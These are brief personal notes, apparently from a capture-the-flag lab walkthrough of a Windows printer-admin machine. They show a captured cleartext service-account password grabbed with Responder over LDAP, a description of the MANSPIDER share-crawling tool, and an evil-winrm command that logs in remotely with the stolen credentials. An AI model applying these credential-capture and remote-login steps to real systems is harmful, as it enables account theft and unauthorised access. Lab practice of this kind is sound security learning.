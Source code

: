 ___


windows machine

port 80 IIS server

|   |   |
|---|---|
|Server Address||
|Server Port||
|Username||
|Password||

389

svc-printer

password is 7 characters


*grabbed password with responder*
[LDAP] Attempting to parse an old simple Bind request.
[LDAP] Cleartext Client   : 10.10.11.108
[LDAP] Cleartext Username : return\svc-printer
[LDAP] Cleartext Password : 1edFg43012!!




*interesting tool*
### MANSPIDER

[MANSPIDER](https://github.com/blacklanternsecurity/MANSPIDER) is a tool for crawling through a share or many shares looking for certain file types and/or content. Matching content will be copied to a local folder.

Without username / password (or on failed auth), it will try the guest account and a null session.

Filenames can be filtered by extension or by a regex. A regex can also be provided for content of files to look for. Can look inside PDFs, Office documents (`.docx`, `.xlsx`, `.pptx`, etc), text-based formats, as well as images using an optional OCR install.

This tool will be less relevant for individual targets / CTFs, but for a large network, can save a ton of time.




*this worked for connecting to evil-winrm interesting*
sudo docker run --rm -it evil-winrm -i 10.10.11.108 -u 'svc-printer' -p '1edFg43012!!' 



with the -r realm option it didn't work



